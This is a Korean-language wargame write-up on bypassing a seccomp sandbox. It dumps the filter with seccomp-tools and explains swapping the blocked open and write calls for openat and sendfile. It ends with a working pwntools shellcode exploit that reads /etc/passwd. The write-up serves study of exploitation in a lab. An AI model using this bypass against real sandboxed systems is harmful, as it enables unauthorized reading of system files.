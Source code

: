 위 코드는 rwx 권한이 있는 페이지를 할당하고, 입력받은 shellcode를 실행한다. 

### seccomp-tools 결과

```c
seccomp-tools dump ./bypass_seccomp 
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x08 0xc000003e  if (A != ARCH_X86_64) goto 0010
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x05 0xffffffff  if (A != 0xffffffff) goto 0010
 0005: 0x15 0x04 0x00 0x00000001  if (A == write) goto 0010
 0006: 0x15 0x03 0x00 0x00000002  if (A == open) goto 0010
 0007: 0x15 0x02 0x00 0x0000003b  if (A == execve) goto 0010
 0008: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x06 0x00 0x00 0x00000000  return KILL
```

`sandbox`는 `exeve`, `execveat`, `write`, `open`을 실행하지 못하게 한다.

### 같은 기능을 하는 system all 찾기

제한된 system call들과 **같은 기능을 하는 다른 system call**을 찾아본다.

`open`은 파일을 열기 위한 system call로, `openat`이라는 system call이 같은 역할을 수행할 수 있다. 

```c
int openat(int dirfd, const char *pathname, int flags, mode_t mode);
```

두 번째 인자인 `pathname`이 절대 경로일 경우 `openat`은 `dirfd`를 무시하므로, 이를 통해 원하는 파일의 내용을 읽을 수 있다.

`write`은 읽은 내용을 출력하기 위한 system call로, `sendfile`이 같은 역할을 수행할 수 있다.

```c
ssize_t sendfile(int out_fd, int in_fd, off_t *offset, size_t count);
```

읽을 파일의 FD를 `in_fd`에 넣고, STDOUT을 `out_fd`에 넣으면 파일의 내용을 출력할 수 있다. `count`만큼 파일을 전송하므로 이 값을 읽고자 하는 파일의 크기보다 크게 설정해주어야 한다.

### Exploit

따라서 위 두 시스템 콜을 사용한 exploit code는 아래와 같다.

```python
from pwn import *
context.arch = 'x86_64'
p = process("./bypass_seccomp")
shellcode = shellcraft.openat(0, "/etc/passwd")
shellcode += 'mov r10, 0xffff'
shellcode += shellcraft.sendfile(1, 'rax', 0).replace("xor r10d, r10d","")
shellcode += shellcraft.exit(0)
p.sendline(asm(shellcode))
p.interactive()
```
